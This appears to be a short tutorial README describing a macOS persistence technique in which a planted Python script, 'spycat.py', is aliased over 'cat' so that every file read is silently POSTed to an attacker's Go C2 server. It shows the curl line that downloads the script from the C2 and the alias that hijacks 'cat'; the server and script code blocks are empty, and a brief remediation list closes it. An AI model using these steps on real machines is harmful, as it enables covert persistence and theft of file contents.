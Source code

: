 
Assuming the Attacker is already on the target machine and would like to
establish some level of persistence on the Victim machine.
One possible way to achieve this is by modifying a binary that exists on the Victim's machine.
In a very simple form this results in the victim executing a binary they use everyday and in the
process also execute something for the Attacker. 
The Victim does not notice any difference in behviour of the standard binary.


## Scenario
This simple example with showcase how a python script can be planted on the Victim
machine and the `.bash_profile` can be updated to include and alias to this script.
The example script executes when `cat` is called on a file.
Simultaneously the contents of the file are sent to the Attacker.

```
┌───────────────┐              ┌───────────────┐
│    Victim     │              │    Attacker   │
│               │              │               │
│   spycat.py   │              │     C2.go     │
│               │              │               │
│   http POST   ├──────────────►   (log.txt)   │
│               │              │               │
└───────────────┘              └───────────────┘
```

The Victim machine will be MacOS in this case.
The Attacker machine is linux running a custom golang http server.


### Attacker Setup
The GoLang server has a single endpoint which accepts the `POST` of file data.
It writes the output to a log file `log.txt`.

Its composition is as such...

```


```

The go server can be started using `go run server.go`.

As a bonus let's add another endpoint which will simply allow for downloading the malicious script.

GET request
```

```

This script can be downloaded using any HTTP delivery mechanism,
for testing try it as CURL

```
curl -s https://localhost:8080/spycat >> spycat.py
```

### Victim Setup

A Python script can be created on the Victim machine which leverages the default
Python interpreter installed on MacOS.
Create the script on the machine or download from the Attackers C2 server.

Create an alias that points the normal `cat` command to the malicious version.

```
alias cat="python <absolute_path_to_file>/spycat.py"
```


## Remediation
* Read this blogpost, ie ingest this information into TIP platform (URL, filehash)
* Update endpoint signatures or create rule
* Threat hunt for any activity
* Block malicious domains and urls on the firewall

